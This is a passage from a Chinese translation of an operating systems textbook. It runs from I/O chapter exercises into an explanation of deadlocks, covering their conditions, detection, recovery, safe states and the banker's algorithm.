35.计算机系统的设计人员期望鼠标移动的最大速率为20cm/s。如果一个鼠标步是0.1mm，并且每个鼠标消息3个字节，假设每个鼠标步都是单独报告的，那么鼠标的最大数据传输率是多少？
36.基本的加性颜色是红色、绿色和蓝色，这意味着任何颜色都可以通过这些颜色的线性叠加而构造出来。某人拥有一张不能使用全24位颜色表示的彩色照片，这可能吗？
37.将字符放置在位图模式的屏幕上，一种方法是使用BitBlt从一个字体表复制位图。假设一种特殊的字体使用16×24像素的字符，并且采用RGB真彩色。
(a)每个字符占用多少字体表空间？
(b)如果复制一个字节花费100ns（包括系统开销），那么到屏幕的输出率是每秒多少个字符？
38.假设复制一个字节花费10ns，那么对于80字符×25行文本模式的内存映射的屏幕，完全重写屏幕要花费多长时间？采用24位彩色的1024×768像素的图形屏幕情况怎样？
39.在图5-4 0中存在一个窗口类需要调用RegisterClass进行注册，在图5-38中对应的X窗口代码中，并不存在这样的调用或与此相似的任何调用。为什么？
40.在课文中我们给出了一个如何在屏幕上画一个矩形的例子，即使用Windows GDI：
Rectangle(hdc,xleft,ytop,xright,ybottom);
是否存在对于第一个参数（hdc）的实际需要？如果存在，是什么？毕竟，矩形的坐标作为参数而显式地指明了。
41.一台THINC终端用于显示一个网页，该网页包含一个动画卡通，卡通大小为400×160像素，以每秒10帧的速度播放。显示该卡通会消耗100Mbps决速以太网带宽多大的部分?
42.在一次测试中，THINC系统被观测到对于1Mbps的网络工作良好。在多用户的情形中会有问题吗？提示：考虑大量的用户在观看时间表排好的TV节目，并且相同数目的用户在浏览万维网。
43.如果一个CPU的最大电压V被削减到V/n，那么它的功率消耗将下降到其原始值的l/n2 ，并且它的时钟速度下降到其原始值的1/n。假设一个用户以每秒1个字符的速度键入字符，处理每个字符所需要的CPU时间是100ms，n的最优值是多少？与不削减电压相比，以百分比表示相应的能量节约了多少？假设空闲的CPU完全不消耗能量。
44.一台笔记本电脑被设置成最大地利用功率节省特性，包括在一段时间不活动之后关闭显示器和硬盘。一个用户有时在文本模式下运行UNIX程序，而在其他时间使用X窗口系统。她惊讶地发现当她使用仅限文本模式的程序时，电池的寿命相当长。为什么？
45.编写一个程序模拟稳定的存储器，在你的磁盘上使用两个大型的固定长度的文件来模拟两块磁盘。
46.编写一个程序实现三个磁盘臂调度算法。编写一个驱动程序随机生成一个柱面号序列（0～999），针对该序列运行三个算法并且打印出在三个算法中磁盘臂需要来回移动的总距离（柱面数）。
47.编写一个程序使用单一的时钟实现多个定时器。该程序的输入包含四种命令（S＜int＞,T,E＜int＞,P）的序列：S＜int＞设置当前时刻为＜int＞；T是一个时钟滴答；E＜int＞调度一个信号在＜int＞时刻发生；P打印出当前时刻、下一信号和时钟头的值。当唤起一个信号时，你的程序还应该打印出一条语句。
在计算机系统中有很多独占性的资源，在任一时刻它们都只能被一个进程使用。常见的有打印机、磁带以及系统内部表中的表项。打印机同时让两个进程打印将造成混乱的打印结果；两个进程同时使用同一文件系统表中的表项会引起文件系统的瘫痪。正因为如此，操作系统都具有授权一个进程（临时）排他地访问某一种资源的能力。
在很多应用中，需要一个进程排他性地访问若干种资源而不是一种。例如，有两个进程准备分别将扫描的文档记录到CD上。进程A请求使用扫描仪，并被授权使用。但进程B首先请求CD刻录机，也被授权使用。现在，A请求使用CD刻录机，但该请求在B释放CD刻录机前会被拒绝。但是，进程B非但不放弃CD刻录机，而且去请求扫描仪。这时，两个进程都被阻塞，并且一直处于这样的状态。这种状况就是死锁（deadlock）。
死锁也可能发生在机器之间。例如，许多办公室中都用计算机连成局域网，扫描仪、CD刻录机、打印机和磁带机等设备也连接到局域网上，成为共享资源，供局域网中任何机器上的人和用户使用。如果这些设备可以远程保留给某一个用户（比如，在用户家里的机器使用这些设备），那么，也会发生上面描述的死锁现象。更复杂的情形会引起三个、四个或更多设备和用户发生死锁。
除了请求独占性的I/O设备之外，别的情况也有可能引起死锁。例如，在一个数据库系统中，为了避免竞争，可对若干记录加锁。如果进程A对记录R1加了锁，进程B对记录R2加了锁，接着，这两个进程又试图各自把对方的记录也加锁，这时也会产生死锁。所以，软硬件资源都有可能出现死锁。
在本章里，我们准备考察几类死锁，了解它们是如何出现的，学习防止或者避免死锁的办法。尽管我们所讨论的是操作系统环境下出现的死锁问题，但是在数据库系统和许多计算机应用环境中都可能产生死锁，所以我们所介绍的内容实际上可以应用到包含多个进程的系统中。有很多有关死锁的著作，《Operating Systems Review》中列出了两本参考书（Newton,1979;Zobel,1983），有兴趣的读者可以参考这两本书。死锁方面的大多数研究工作在1980年以前就完成了，尽管所列的参考文献有些老，但是这些内容依然是很有用的。
大部分死锁都和资源相关，所以我们首先来看看资源是什么。在进程对设备、文件等取得了排他性访问权时，有可能会出现死锁。为了尽可能使关于死锁的讨论通用，我们把这类需要排他性使用的对象称为资源（resource）。资源可以是硬件设备（如磁带机）或是一组信息（如数据库中一个加锁的记录）。通常在计算机中有多种（可获取的）资源。一些类型的资源会有若干个相同的实例，如三台磁带机。当某一资源有若干实例时，其中任何一个都可以用来满足对资源的请求。简单来说，资源就是随着时间的推移，必须能获得、使用以及释放的任何东西。
资源分为两类：可抢占的和不可抢占的。可抢占资源（preemptable resource）可以从拥有它的进程中抢占而不会产生任何副作用，存储器就是一类可抢占的资源。例如，一个系统拥有256MB的用户内存和一台打印机。如果有两个256MB内存的进程都想进行打印，进程A请求并获得了打印机，然后开始计算要打印的值。在它没有完成计算任务之前，它的时间片就已经用完并被换出。
然后，进程B开始运行并请求打印机，但是没有成功。这时有潜在的死锁危险。由于进程A拥有打印机，而进程B占有了内存，两个进程都缺少另外一个进程拥有的资源，所以任何一个都不能继续执行。不过，幸运的是通过把进程B换出内存、把进程A换入内存就可以实现抢占进程B的内存。这样，进程A继续运行并执行打印任务，然后释放打印机。在这个过程中不会产生死锁。
相反，不可抢占资源（nonpreemptable resource）是指在不引起相关的计算失败的情况下，无法把它从占有它的进程处抢占过来。如果一个进程已开始刻盘，突然将CD刻录机分配给另一个进程，那么将划坏CD盘。在任何时刻CD刻录机都是不可抢占的。
总的来说，死锁和不可抢占资源有关，有关可抢占资源的潜在死锁通常可以通过在进程之间重新分配资源而化解。所以，我们的重点放在不可抢占资源上。
使用一个资源所需要的事件顺序可以用抽象的形式表示如下：
1)请求资源。
2)使用资源。
3)释放资源。
若请求时资源不可用，则请求进程被迫等待。在一些操作系统中，资源请求失败时进程会自动被阻塞，在资源可用时再唤醒它。在其他的系统中，资源请求失败会返回一个错误代码，请求的进程会等待一段时间，然后重试。
当一个进程请求资源失败时，它通常会处于这样一个小循环中：请求资源，休眠，再请求。这个进程虽然没有被阻塞，但是从各角度来说，它不能做任何有价值的工作，实际和阻塞状态一样。在后面的讨论中，我们假设：如果某个进程请求资源失败，那么它就进入休眠状态。
请求资源的过程是非常依赖于系统的。在某些系统中，提供了request系统调用，用于允许进程资源请求。在另一些系统中，操作系统只知道资源是一些特殊文件，在任何时刻它们最多只能被一个进程打开。一般情况下，这些特殊文件用open调用打开。如果这些文件正在被使用，那么，发出open调用的进程会被阻塞，一直到文件的当前使用者关闭该文件为止。
对于数据库系统中的记录这类资源，应该由用户进程来管理其使用。一种允许用户管理资源的可能方法是为每一个资源配置一个信号量。这些信号量都被初始化为1。互斥信号量也能起到相同的作用。上述的三个步骤可以实现为信号量的down操作来获取资源，使用资源，最后使用up操作来释放资源。这三个步骤如图6-1a所示。
有时候，进程需要两个或更多的资源，它们可以顺序获得，如图6-1b所示。如果需要两个以上的资源，通常都是连续获取。
到目前为止，进程的执行不会出现问题。在只有一个进程参与时，所有的工作都可以很好地完成。当然，如果只有一个进程，就没有必要这么慎重地获取资源，因为不存在资源竞争。
现在考虑两个进程（A和B）以及两个资源的情况。图6-2描述了两种不同的方式。在图6-2a中，两个进程以相同的次序请求资源；在图6-2b中，它们以不同的次序请求资源。这种不同看似微不足道，实则不然。
在图6-2a中，其中一个进程先于另一个进程获取资源。这个进程能够成功地获取第二个资源并完成它的任务。如果另一个进程想在第一个资源被释放之前获取该资源，那么它会由于资源加锁而被阻塞，直到该资源可用为止。
图6-2b的情况就不同了。可能其中一个进程获取了两个资源并有效地阻塞了另外一个进程，直到它使用完这两个资源为止。但是，也有可能进程A获取了资源1，进程B获取了资源2，每个进程如果都想请求另一个资源就会被阻塞，那么，每个进程都无法继续运行。这种情况就是死锁。
这里我们可以看到一个编码风格上的细微差别（哪一个资源先获取）造成了可以执行的程序和不能执行而且无法检测错误的程序之间的差别。因为死锁是非常容易发生的，所以有很多人研究如何处理这种情况。这一章就会详细讨论死锁问题，并给出一些对策。
死锁的规范定义如下：
如果一个进程集合中的每个进程都在等待只能由该进程集合中的其他进程才能引发的事件，那么，该进程集合就是死锁的。
由于所有的进程都在等待，所以没有一个进程能引发可以唤醒该进程集合中的其他进程的事件，这样，所有的进程都只好无限期等待下去。在这一模型中，我们假设进程只含有一个线程，并且被阻塞的进程无法由中断唤醒。无中断条件使死锁的进程不能被时钟中断等唤醒，从而不能引发释放该集合中的其他进程的事件。
在大多数情况下，每个进程所等待的事件是释放该进程集合中其他进程所占有的资源。换言之，这个死锁进程集合中的每一个进程都在等待另一个死锁的进程已经占有的资源。但是由于所有进程都不能运行，它们中的任何一个都无法释放资源，所以没有一个进程可以被唤醒。进程的数量以及占有或者请求的资源数量和种类都是无关紧要的，而且无论资源是何种类型（软件或者硬件）都会发生这种结果。这种死锁称为资源死锁（resource deadlock）。这是最常见的类型，但并不是惟一的类型。本节我们会详细介绍一下资源死锁，在本章末再概述其他类型的死锁。
Coffman等人（1971）总结了发生（资源）死锁的四个必要条件：
1)互斥条件。每个资源要么已经分配给了一个进程，要么就是可用的。
2)占有和等待条件。已经得到了某个资源的进程可以再请求新的资源。
3)不可抢占条件。已经分配给一个进程的资源不能强制性地被抢占，它只能被占有它的进程显式地释放。
4)环路等待条件。死锁发生时，系统中一定有由两个或两个以上的进程组成的一条环路，该环路中的每个进程都在等待着下一个进程所占有的资源。
死锁发生时，以上四个条件一定是同时满足的。如果其中任何一个条件不成立，死锁就不会发生。
值得注意的是，每一个条件都与系统的一种可选策略相关。一种资源能否同时分配给不同的进程？一个进程能否在占有一个资源的同时请求另一个资源？资源能否被抢占？循环等待环路是否存在？我们在后面会看到怎样通过破坏上述条件来预防死锁。
Holt（1972）指出如何用有向图建立上述四个条件的模型。在有向图中有两类节点：用圆形表示的进程，用方形表示的资源。从资源节点到进程节点的有向边代表该资源已被请求、授权并被进程占用。在图6-3a中，当前资源R正被进程A占用。
由进程节点到资源节点的有向边表明当前进程正在请求该资源，并且该进程已被阻塞，处于等待该资源的状态。在图6-3b中，进程B正等待着资源S。图6-3c说明进入了死锁状态：进程C等待着资源T，资源T被进程D占用着，进程D又等待着由进程C占用着的资源U。这样两个进程都得等待下去。图中的环表示与这些进程和资源有关的死锁。在本例中，环是C-T-D-U-C。
我们再看看使用资源分配图的方法。假设有三个进程（A，B，C）及三个资源（R，S，T）。三个进程对资源的请求和释放如图6-4a～图6-4c所示。操作系统可以随时选择任一非阻塞进程运行，所以它可选择A运行一直到A完成其所有工作，接着运行B，最后运行C。
上述的执行次序不会引起死锁（因为没有资源的竞争），但程序也没有任何并行性。进程在执行过程中，不仅要请求和释放资源，还要做计算或者输入/输出工作。如果进程是串行运行，不会出现当一个进程等待I/O时让另一个进程占用CPU进行计算的情形。因此，严格的串行操作有可能不是最优的。不过，如果所有的进程都不执行I/O操作，那么最短作业优先调度会比轮转调度优越，所以在这种情况下，串行运行有可能是最优的。
如果假设进程操作包含I/O和计算，那么轮转法是一种合适的调度算法。对资源请求的次序可能会如图6-4d所示。假如按这个次序执行，图6-4e～图6-4j是相应的资源分配图。在出现请求4后，如图6-4h所示，进程A被阻塞等待S，后续两步中的B和C也会被阻塞，结果如图6-4j所示，产生环路并导致死锁。
不过正如前面所讨论的，并没有规定操作系统要按照某一特定的次序来运行这些进程。特别地，对于一个有可能引起死锁的资源请求，操作系统可以干脆不批准请求，并把该进程挂起（即不参与调度）一直到处于安全状态为止。在图6-4中，假设操作系统知道有引起死锁的可能，那么它可以不把资源S分配给B，这样B被挂起。假如只运行进程A和C，那么资源请求和释放的过程会如图6-4k所示，而不是如图6-4d所示。这一过程的资源分配图在图6-4l～图6-4q中给出，其中没有死锁产生。
在第q步执行完后，就可以把资源S分配给B了，因为A已经完成，而且C获得了它所需要的所有资源。尽管B会因为请求T而等待，但是不会引起死锁，B只需要等待C结束。
在本章后面我们将考察一个具体的算法，用以做出不会引起死锁的资源分配决策。在这里需要说明的是，资源分配图可以用作一种分析工具，考察对一给定的请求/释放的序列是否会引起死锁。只需要按照请求和释放的次序一步步进行，每一步之后都检查图中是否包括了环路。如果有环路，那么就有死锁；反之，则没有死锁。在我们的例子中，虽然只和同一类资源有关，而且只包含一个实例，但是上面的原理完全可以推广到有多种资源并含有若干个实例的情况中去（Holt,1972）。
总而言之，有四种处理死锁的策略：
1)忽略该问题。也许如果你忽略它，它也会忽略你。
2)检测死锁并恢复。让死锁发生，检测它们是否发生，一旦发生死锁，采取行动解决问题。
3)仔细对资源进行分配，动态地避免死锁。
4)通过破坏引起死锁的四个必要条件之一，防止死锁的产生。
下面四节将分别讨论这四种方法。
最简单的解决方法是鸵鸟算法：把头埋到沙子里，假装根本没有问题发生 [1] 。每个人对该方法的看法都不相同。数学家认为这种方法根本不能接受，不论代价有多大，都要彻底防止死锁的产生；工程师们想要了解死锁发生的频度、系统因各种原因崩溃的发生次数以及死锁的严重性。如果死锁平均每5年发生一次，而每个月系统都会因硬件故障、编译器错误或者操作系统故障而崩溃一次，那么大多数的工程师不会以性能损失和可用性的代价去防止死锁。
为了能够让这一对比更具体，考虑如下情况的一个操作系统：当一个open系统调用因物理设备（例如CD-ROM驱动程序或者打印机）忙而不能得到响应的时候，操作系统会阻塞调用该系统调用的进程。通常是由设备驱动来决定在这种情况下应该采取何种措施。显然，阻塞或者返回一个错误代码是两种选择。如果一个进程成功地打开了CD-ROM驱动器，而另一个进程成功地打开了打印机，这时每个进程都会试图去打开另外一个设备，然后系统会阻塞这种尝试，从而发生死锁。现有系统很少能够检测到这种死锁。
第二种技术是死锁检测和恢复。在使用这种技术时，系统并不试图阻止死锁的产生，而是允许死锁发生，当检测到死锁发生后，采取措施进行恢复。本节我们将考察检测死锁的几种方法以及恢复死锁的几种方法。
我们从最简单的例子开始，即每种类型只有一个资源。这样的系统可能有一台扫描仪、一台CD刻录机、一台绘图仪和一台磁带机，但每种类型的资源都不超过一个，即排除了同时有两台打印机的情况。稍后我们将用另一种方法来解决两台打印机的情况。
可以对这样的系统构造一张资源分配图，如图6-3所示。如果这张图包含了一个或一个以上的环，那么死锁就存在。在此环中的任何一个进程都是死锁进程。如果没有这样的环，系统就没有发生死锁。
我们讨论一下更复杂的情况，假设一个系统包括A到G共7个进程，R到W共6种资源。资源的占有情况和进程对资源的请求情况如下：
1)A进程持有R资源，且需要S资源。
2)B进程不持有任何资源，但需要T资源。
3)C进程不持有任何资源，但需要S资源。
4)D进程持有U资源，且需要S资源和T资源。
5)E进程持有T资源，且需要V资源。
6)F进程持有W资源，且需要S资源。
7)G进程持有V资源，且需要U资源。
问题是：“系统是否存在死锁？如果存在的话，死锁涉及了哪些进程？”
要回答这一问题，我们可以构造一张资源分配图，如图6-5a所示。可以直接观察到这张图中包含了一个环，如图6-5b所示。在这个环中，我们可以看出进程D、E、G已经死锁。进程A、C、F没有死锁，这是因为可把S资源分配给它们中的任一个，而且它们中的任一进程完成后都能释放S，于是其他两个进程可依次执行，直至执行完毕。（请注意，为了让这个例子更有趣，我们允许进程D每次请求两个资源。）
虽然通过观察一张简单的图就能够很容易地找出死锁进程，但为了实用，我们仍然需要一个正规的算法来检测死锁。众所周知，有很多检测有向图环路的方法。下面将给出一个简单的算法，这种算法对有向图进行检测，并在发现图中有环路存在或无环路时结束。这一算法使用了数据结构L，L代表一些节点的集合。在这一算法中，对已经检查过的弧（有向边）进行标记，以免重复检查。
通过执行下列步骤完成上述算法：
1)对图中的每一个节点N，将N作为起始点执行下面5个步骤。
2)将L初始化为空表，并清除所有的有向边标记。
3)将当前节点添加到L的尾部，并检测该节点是否在L中已出现过两次。如果是，那么该图包含了一个环（已列在L中），算法结束。
4)从给定的节点开始，检测是否存在没有标记的从该节点出发的弧（有向边）。如果存在的话，做第5步；如果不存在，跳到第6步。
5)随机选取一条没有标记的从该节点出发的弧（有向边），标记它。然后顺着这条弧线找到新的当前节点，返回到第3步。
6)如果这一节点是起始节点，那么表明该图不存在任何环，算法结束。否则意味着我们走进了死胡同，所以需要移走该节点，返回到前一个节点，即当前节点前面的一个节点，并将它作为新的当前节点，同时转到第3步。
这一算法是依次将每一个节点作为一棵树的根节点，并进行深度优先搜索。如果再次碰到已经遇到过的节点，那么就算找到了一个环。如果从任何给定的节点出发的弧都被穷举了，那么就回溯到前面的节点。如果回溯到根并且不能再深入下去，那么从当前节点出发的子图中就不包含任何环。如果所有的节点都是如此，那么整个图就不存在环，也就是说系统不存在死锁。
为了验证一下该算法是如何工作的，我们对图6-5a运用该算法。算法对节点次序的要求是任意的，所以可以选择从左到右、从上到下进行检测，首先从R节点开始运行该算法，然后依次从A、B、C、S、D、T、E、F开始。如果遇到了一个环，那么算法停止。
我们先从R节点开始，并将L初始化为空表。然后将R添加到空表中，并移动到惟一可能的节点A，将它添加到L中，变成L=[R，A]。从A我们到达S，并使L=[R，A，S]。S没有出发的弧，所以它是条死路，迫使我们回溯到A。既然A没有任何没有标记的出发弧，我们再回溯到R，从而完成了以R为起始点的检测。
现在我们重新以A为起始点启动该算法，并重置L为空表。这次检索也很快就结束了，所以我们又从B开始。从B节点我们顺着弧到达D，这时L=[B，T，E，V，G，U，D]。现在我们必须随机选择。如果选S点，那么走进了死胡同并回溯到D。接着选T并将L更新为[B，T，E，V，G，U，D，T]，在这一点上我们发现了环，算法结束。
这种算法远不是最佳算法，较好的一种算法参见（Even,1979）。但毫无疑问，该实例表明确实存在检测死锁的算法。
如果有多种相同的资源存在，就需要采用另一种方法来检测死锁。现在我们提供一种基于矩阵的算法来检测从P1 到Pn 这n个进程中的死锁。假设资源的类型数为m，E1 代表资源类型1，E2 代表资源类型2，Ei 代表资源类型i(1≤i≤m)。E是现有资源向量（existing resource vector），代表每种已存在的资源总数。比如，如果资源类型1代表磁带机，那么E1 =2就表示系统有两台磁带机。
在任意时刻，某些资源已被分配所以不可用。假设A是可用资源向量（available resource vector），那么Ai 表示当前可供使用的资源数（即没有被分配的资源）。如果仅有的两台磁带机都已经分配出去了，那么A1 的值为0。
现在我们需要两个数组：C代表当前分配矩阵（current allocation matrix），R代表请求矩阵（request matrix）。C的第i行代表Pi 当前所持有的每一种类型资源的资源数。所以，Cij 代表进程i所持有的资源j的数量。同理，Rij 代表Pi 所需要的资源j的数量。这四种数据结构如图6-6所示。
这四种数据结构之间有一个重要的恒等式。具体地说，某种资源要么已分配要么可用。这个结论意味着：
换言之，如果我们将所有已分配的资源j的数量加起来再和所有可供使用的资源数相加，结果就是该类资源的资源总数。
死锁检测算法就是基于向量的比较。我们定义向量A和向量B之间的关系为A≤B以表明A的每一个分量要么等于要么小于和B向量相对应的分量。从数学上来说，A≤B当且仅当且Ai ≤Bi (0≤i≤m)。
每个进程起初都是没有标记过的。算法开始会对进程做标记，进程被标记后就表明它们能够被执行，不会进入死锁。当算法结束时，任何没有标记的进程都是死锁进程。该算法假定了一个最坏情形：所有的进程在退出以前都会不停地获取资源。
死锁检测算法如下：
1)寻找一个没有标记的进程Pi ，对于它而言R矩阵的第i行向量小于或等于A。
2)如果找到了这样一个进程，那么将C矩阵的第i行向量加到A中，标记该进程，并转到第1步。
3)如果没有这样的进程，那么算法终止。
算法结束时，所有没有标记过的进程（如果存在的话）都是死锁进程。
算法的第1步是寻找可以运行完毕的进程，该进程的特点是它有资源请求并且该请求可被当前的可用资源满足。这一选中的进程随后就被运行完毕，在这段时间内它释放自己持有的所有资源并将它们返回到可用资源库中。然后，这一进程被标记为完成。如果所有的进程最终都能运行完毕的话，就不存在死锁的情况。如果其中某些进程一直不能运行，那么它们就是死锁进程。虽然算法的运行过程是不确定的（因为进程可按任何行得通的次序执行），但结果总是相同的。
作为一个例子，在图6-7中展示了用该算法检测死锁的工作过程。这里我们有3个进程、4种资源（可以任意地将它们标记为磁带机、绘图仪、扫描仪和CD-ROM驱动器）。进程1有一台扫描仪。进程2有2台磁带机和1个CD-ROM驱动器。进程3有1个绘图仪和2台扫描仪。每一个进程都需要额外的资源，如矩阵R所示。
要运行死锁检测算法，首先找出哪一个进程的资源请求可被满足。第1个不能被满足，因为没有CD-ROM驱动器可供使用。第2个也不能被满足，由于没有打印机空闲。幸运的是，第3个可被满足，所以进程3运行并最终释放它所拥有的资源，给出
A=(2 2 2 0)
接下来，进程2也可运行并释放它所拥有的资源，给出
A=(4 2 2 1)
现在剩下的进程都能够运行，所以这个系统中不存在死锁。
假设图6-7的情况有所改变。进程2需要1个CD-ROM驱动器、2台磁带机和1台绘图仪。在这种情况下，所有的请求都不能得到满足，整个系统进入死锁。
现在我们知道了如何检测死锁（至少是在这种预先知道静态资源请求的情况下），但问题在于何时去检测它们。一种方法是每当有资源请求时去检测。毫无疑问越早发现越好，但这种方法会占用昂贵的CPU时间。另一种方法是每隔k分钟检测一次，或者当CPU的使用率降到某一域值时去检测。考虑到CPU使用效率的原因，如果死锁进程数达到一定数量，就没有多少进程可运行了，所以CPU会经常空闲。
假设我们的死锁检测算法已成功地检测到了死锁，那么下一步该怎么办？当然需要一些方法使系统重新正常工作。在本小节中，我们会讨论各种从死锁中恢复的方法，尽管这些方法看起来都不那么令人满意。
1.利用抢占恢复
在某些情况下，可能会临时将某个资源从它的当前所有者那里转移到另一个进程。许多情况下，尤其是对运行在大型主机上的批处理操作系统来说，需要人工进行干预。
比如，要将激光打印机从它的持有进程那里拿走，管理员可以收集已打印好的文档并将其堆积在一旁。然后，该进程被挂起（标记为不可运行）。接着，打印机被分配给另一个进程。当那个进程结束后，堆在一旁的文档再被重新放回原处，原进程可重新继续工作。
在不通知原进程的情况下，将某一资源从一个进程强行取走给另一个进程使用，接着又送回，这种做法是否可行主要取决于该资源本身的特性。用这种方法恢复通常比较困难或者说不太可能。若选择挂起某个进程，则在很大程度上取决于哪一个进程拥有比较容易收回的资源。
2.利用回滚恢复
如果系统设计人员以及主机操作员了解到死锁有可能发生，他们就可以周期性地对进程进行检查点检查（checkpointed）。进程检查点检查就是将进程的状态写入一个文件以备以后重启。该检查点中不仅包括存储映像，还包括了资源状态，即哪些资源分配给了该进程。为了使这一过程更有效，新的检查点不应覆盖原有的文件，而应写到新文件中。这样，当进程执行时，将会有一系列的检查点文件被累积起来。
一旦检测到死锁，就很容易发现需要哪些资源。为了进行恢复，要从一个较早的检查点上开始，这样拥有所需要资源的进程会回滚到一个时间点，在此时间点之前该进程获得了一些其他的资源。在该检查点后所做的所有工作都丢失。（例如，检查点之后的输出必须丢弃，因为它们还会被重新输出。）实际上，是将该进程复位到一个更早的状态，那时它还没有取得所需的资源，接着就把这个资源分配给一个死锁进程。如果复位后的进程试图重新获得对该资源的控制，它就必须一直等到该资源可用时为止。
3.通过杀死进程恢复
最直接也是最简单的解决死锁的方法是杀死一个或若干个进程。一种方法是杀掉环中的一个进程。如果走运的话，其他进程将可以继续。如果这样做行不通的话，就需要继续杀死别的进程直到打破死锁环。
另一种方法是选一个环外的进程作为牺牲品以释放该进程的资源。在使用这种方法时，选择一个要被杀死的进程要特别小心，它应该正好持有环中某些进程所需的资源。比如，一个进程可能持有一台绘图仪而需要一台打印机，而另一个进程可能持有一台打印机而需要一台绘图仪，因而这两个进程是死锁的。第三个进程可能持有另一台同样的打印机和另一台同样的绘图仪而且正在运行着。杀死第三个进程将释放这些资源，从而打破前两个进程的死锁。
有可能的话，最好杀死可以从头开始重新运行而且不会带来副作用的进程。比如，编译进程可以被重复运行，由于它只需要读入一个源文件和产生一个目标文件。如果将它中途杀死，它的第一次运行不会影响到第二次运行。
另一方面，更新数据库的进程在第二次运行时并非总是安全的。如果一个进程将数据库的某个记录加1，那么运行它一次，将它杀死后，再次执行，就会对该记录加2，这显然是错误的。
在讨论死锁检测时，我们假设当一个进程请求资源时，它一次就请求所有的资源（见图6-6中的矩阵R）。不过在大多数系统中，一次只请求一个资源。系统必须能够判断分配资源是否安全，并且只能在保证安全的条件下分配资源。问题是：是否存在一种算法总能做出正确的选择从而避免死锁？答案是肯定的，但条件是必须事先获得一些特定的信息。本节我们会讨论几种死锁避免的方法。
避免死锁的主要算法是基于一个安全状态的概念。在描述算法前，我们先讨论有关安全的概念。通过图的方式，能更容易理解。虽然图的方式不能被直接翻译成有用的算法，但它给出了一个解决问题的直观感受。
在图6-8中，我们看到一个处理两个进程和两种资源（打印机和绘图仪）的模型。横轴表示进程A执行的指令，纵轴表示进程B执行的指令。进程A在I1 处请求一台打印机，在I3 处释放，在I2 处请求一台绘图仪，在I4 处释放。进程B在I5 到I7 之间需要绘图仪，在I6 到I8 之间需要打印机。
图6-8中的每一点都表示出两个进程的连接状态。初始点为p，没有进程执行任何指令。如果调度程序选中A先运行，那么在A执行一段指令后到达q，此时B没有执行任何指令。在q点，如果轨迹沿垂直方向移动，表示调度程序选中B运行。在单处理机情况下，所有路径都只能是水平或垂直方向的，不会出现斜向的。因此，运动方向一定是向上或向右，不会向左或向下，因为进程的执行不可能后退。
当进程A由r向s移动穿过I1 线时，它请求并获得打印机。当进程B到达t时，它请求绘图仪。
图中的阴影部分是我们感兴趣的，画着从左下到右上斜线的部分表示在该区域中两个进程都拥有打印机，而互斥使用的规则决定了不可能进入该区域。另一种斜线的区域表示两个进程都拥有绘图仪，且同样不可进入。
如果系统一旦进入由I1 、I2 和I5 、I6 组成的矩形区域，那么最后一定会到达I2 和I6 的交叉点，这时就产生死锁。在该点处，A请求绘图仪，B请求打印机，而且这两种资源均已被分配。这整个矩形区域都是不安全的，因此决不能进入这个区域。在点t处惟一的办法是运行进程A直到I4 ，过了I4 后，可以按任何路线前进，直到终点u。
需要注意的是，在点t进程B请求资源。系统必须决定是否分配。如果系统把资源分配给B，系统进入不安全区域，最终形成死锁。要避免死锁，应该将B挂起，直到A请求并释放绘图仪。
我们将要研究的死锁避免算法使用了图6-6中的有关信息。在任何时刻，当前状态包括了E、A、C和R。如果没有死锁发生，并且即使所有进程突然请求对资源的最大需求，也仍然存在某种调度次序能够使得每一个进程运行完毕，则称该状态是安全的。通过使用一个资源的例子很容易说明这个概念。在图6-9a中有一个A拥有3个资源实例但最终可能会需要9个资源实例的状态。B当前拥有2个资源实例，将来共需要4个资源实例。同样，C拥有2个资源实例，还需要另外5个资源实例。总共有10个资源实例，其中有7个资源已经分配，还有3个资源是空闲的。
图6-9a的状态是安全的，这是由于存在一个分配序列使得所有的进程都能完成。也就是说，这个方案可以单独地运行B，直到它请求并获得另外两个资源实例，从而到达图6-9b的状态。当B完成后，就到达了图6-9c的状态。然后调度程序可以运行C，再到达图6-9d的状态。当C完成后，到达了图6-9e的状态。现在A可以获得它所需要的6个资源实例，并且完成。这样系统通过仔细的调度，就能够避免死锁，所以图6-9a的状态是安全的。
现在假设初始状态如图6-10a所示。但这次A请求并得到另一个资源，如图6-10b所示。我们还能找到一个序列来完成所有工作吗？我们来试一试。调度程序可以运行B，直到B获得所需资源，如图6-10c所示。
最终，进程B完成，状态如图6-10d所示，此时进入困境了。只有4个资源实例空闲，并且所有活动进程都需要5个资源实例。任何分配资源实例的序列都无法保证工作的完成。于是，从图6-10a到图6-10b的分配方案，从安全状态进入到了不安全状态。从图6-10c的状态出发运行进程A或C也都不行。回过头来再看，A的请求不应该满足。
值得注意的是，不安全状态并不是死锁。从图6-10b出发，系统能运行一段时间。实际上，甚至有一个进程能够完成。而且，在A请求其他资源实例前，A可能先释放一个资源实例，这就可以让C先完成，从而避免了死锁。因而，安全状态和不安全状态的区别是：从安全状态出发，系统能够保证所有进程都能完成；而从不安全状态出发，就没有这样的保证。
Dijkstra（1965）提出了一种能够避免死锁的调度算法，称为银行家算法（banker's algorithm），这是6.4.1节中给出的死锁检测算法的扩展。该模型基于一个小城镇的银行家，他向一群客户分别承诺了一定的贷款额度。算法要做的是判断对请求的满足是否会导致进入不安全状态。如果是，就拒绝请求；如果满足请求后系统仍然是安全的，就予以分配。在图6-11a中我们看到4个客户A、B、C、D，每个客户都被授予一定数量的贷款单位（比如1单位是1千美元），银行家知道不可能所有客户同时都需要最大贷款额，所以他只保留10个单位而不是22个单位的资金来为客户服务。这里将客户比作进程，贷款单位比作资源，银行家比作操作系统。
客户们各自做自己的生意，在某些时刻需要贷款（相当于请求资源）。在某一时刻，具体情况如图6-11b所示。这个状态是安全的，由于保留着2个单位，银行家能够拖延除了C以外的其他请求。因而可以让C先完成，然后释放C所占的4个单位资源。有了这4个单位资源，银行家就可以给D或B分配所需的贷款单位，以此类推。
考虑假如向B提供了另一个他所请求的贷款单位，如图6-11b所示，那么我们就有如图6-11c所示的状态，该状态是不安全的。如果忽然所有的客户都请求最大的限额，而银行家无法满足其中任何一个的要求，那么就会产生死锁。不安全状态并不一定引起死锁，由于客户不一定需要其最大贷款额度，但银行家不敢抱这种侥幸心理。
银行家算法就是对每一个请求进行检查，检查如果满足这一请求是否会达到安全状态。若是，那么就满足该请求；若否，那么就推迟对这一请求的满足。为了看状态是否安全，银行家看他是否有足够的资源满足某一个客户。如果可以，那么这笔投资认为是能够收回的，并且接着检查最接近最大限额的一个客户，以此类推。如果所有投资最终都被收回，那么该状态是安全的，最初的请求可以批准。
可以把银行家算法进行推广以处理多个资源。图6-12说明了多个资源的银行家算法如何工作。
